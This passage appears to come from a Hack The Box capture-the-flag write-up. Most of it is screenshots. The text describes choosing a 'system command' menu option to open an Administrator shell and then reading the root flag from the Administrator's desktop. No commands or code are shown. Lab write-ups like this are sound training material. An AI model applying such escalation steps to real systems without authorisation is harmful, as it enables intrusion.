  
</p>

4. In the menu select *system command*
<p align="center">
  
</p>

<p align="center">
  
</p>

Now we can run the command to open an Administrator shell.

<p align="center">
  
</p>

In *C:\Users\Administrator\Desktop* there is the root flag.


## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/589">
        
    </a>
</p>
